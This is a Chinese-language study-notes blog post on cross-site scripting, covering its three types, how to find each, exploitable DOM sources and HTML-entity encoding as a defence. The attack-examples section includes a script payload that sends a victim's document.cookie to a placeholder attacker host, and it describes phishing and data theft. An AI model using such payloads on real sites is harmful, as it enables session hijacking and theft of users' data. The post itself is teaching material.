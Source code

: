 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      复习日记-web基础-XSS               # 标题 
subtitle:   回顾以及整理一下自己的知识文档
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```




## 0x00简述：
`Cross-site Scripting`:
>跨站脚本攻击：往web页面或者数据库中注入恶意Script代码，当用户浏览该页面时script脚本会被执行，从而达到恶意攻击用户的目的。
xss函数通常通过输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行，所以xss漏洞的关键在于寻找参数未过滤的输出函数。
我们来介绍一下xss的类型：反射型xss、存储型xss和Dom型
- 1、反射型XSS：通过发出含xss代码的恶意链接并经由用户点击访问该链接后返回带有xss代码的恶意脚本触发该类型攻击，重要的是反射型xss是一次性的，不会损害服务器。
挖掘思路：
对于大多数反射型的xss，都是通过url进行传播，所以我们首先寻找的是哪些url的参数可以在页面中显示，例如大多数的搜索栏，查询等，由于浏览器越来越智能的筛选xss，自带反射型xss过滤，所以这类漏洞会越来越少。
- 2、存储型XSS：攻击者把脚本放在目标服务器的数据库或者文件中，有很高的隐蔽性（多见于论坛，博客和留言板）。
挖掘思路：
这类xss代码都是存在于服务端，因此我们要找到的是网站将数据存储到后端的功能，正是如此才能实现存储型xss。
- 3、DOM型XSS：是一种基于DOM文档对象模型的一种漏洞，DOM型不会和后台交互，是完完全全的web前端安全问题，当客户端的脚本程序可以通过DOM动态地检查和修改页面，而且攻击者可以控制一些DOM对象时，该漏洞即可触发
挖掘思路：
这类xss中，如果页面js中存在获取外部输入内容的可利用函数，且外部输入内容未经过有效过滤就传入危险的输出函数直接输出到页面中或传入eval等危险执行函数就会在页面上直接解析恶意js代码，导致DOM型xss的存在。
其中可利用函数可以为：
`document.URL`
`document.URLUnencoded`
`document.location（及其许多属性）`
`document.referrer`
`window.location（及其许多属性）`
`location`
`location.href`
`location.search`
`location.hash`
`location.pathname`

## 0x01 攻击举例：
- 1、劫持会话：（非httponly）
大多数web应用程序都维护用户会话，以便标识用户，因此用户会话cookie是敏感信息，如果攻击者能通过劫持该会话冒充合法用户，则称为会话劫持。
简单的实例思路：
xss攻击语句：`<script>alert(document.cookie)</script>`直接弹出  
`<script>new image().src="http://ip/port?output="+document.cookie;</script>`发送会话cookie到攻击者控制的机器。
我们首先可以尝试直接弹出会话cookie确认，如需cookie文件的可以使用第二个payload发送cookie。
- 2、执行未经授权的活动
在可控参数中，利用javascript的适当参数，将请求伪造到用户页面，诱惑其点击即可，我们在可控参数中可以将scirpt脚本的功能进行描述实现，一般来说伪造的是http请求。
- 3、网络钓鱼
payload为表单，将表单注入到易受xss攻击的页面，然后发送用户数据到攻击者指定的服务器
- 4、窃取敏感信息
在我们的服务器上面构建出具有窃取敏感信息（截屏发文件等）功能的js文件，以及敏感信息处理文件，一旦受害者访问我们的链接，敏感信息文件就会发送到相应的服务器上。

## 0x02结论
xss漏洞能带来重大风险，不容小觑，xss攻击可能窃取机密信息，冒充用户，执行未经授权的活动等。

保护措施：最好的便是将特殊符号转化为等效的html实体，这样就能防止script脚本的执行。





